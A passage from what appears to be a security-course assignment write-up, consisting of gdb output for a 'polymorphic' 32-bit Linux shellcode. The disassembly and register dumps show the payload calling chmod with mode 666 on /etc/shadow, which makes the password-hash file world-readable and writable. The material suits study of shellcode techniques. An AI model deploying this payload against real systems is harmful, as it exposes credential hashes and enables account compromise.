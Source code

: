 ~~~ nasm
eip            0x8048099	0x8048099 <_start+25>
eflags         0x202	[ IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb) x/16bx 0xbffff6f0
0xbffff6f0:	0x2f	0x2f	0x65	0x74	0x63	0x2f	0x73	0x68
0xbffff6f8:	0x61	0x64	0x6f	0x77	0x00	0x00	0x00	0x00
(gdb)
~~~

#### Disassembly of the Polymorphic Shellcode

~~~ nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./chmod
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/chmod...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/chmod

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	mov    al,0x8
   0x08048082 <+2>:	add    al,al
   0x08048084 <+4>:	dec    al
   0x08048086 <+6>:	cdq    
   0x08048087 <+7>:	push   ecx
   0x08048088 <+8>:	pushw  0x776f
   0x0804808c <+12>:	pushw  0x6461
   0x08048090 <+16>:	pushw  0x6873
   0x08048094 <+20>:	pushw  0x2f63
   0x08048098 <+24>:	pushw  0x7465
   0x0804809c <+28>:	pushw  0x2f2f
   0x080480a0 <+32>:	mov    ebx,esp
   0x080480a2 <+34>:	mov    cx,0x1b6
   0x080480a6 <+38>:	int    0x80
End of assembler dump.
(gdb) break *0x080480a6
Breakpoint 2 at 0x80480a6
(gdb) c
Continuing.

Breakpoint 2, 0x080480a6 in _start ()
(gdb) i r
eax            0xf	15
ecx            0x1b6	438
edx            0x0	0
ebx            0xbffff700	-1073744128
esp            0xbffff700	0xbffff700
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x80480a6	0x80480a6 <_start+38>
eflags         0x216	[ PF AF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
~~~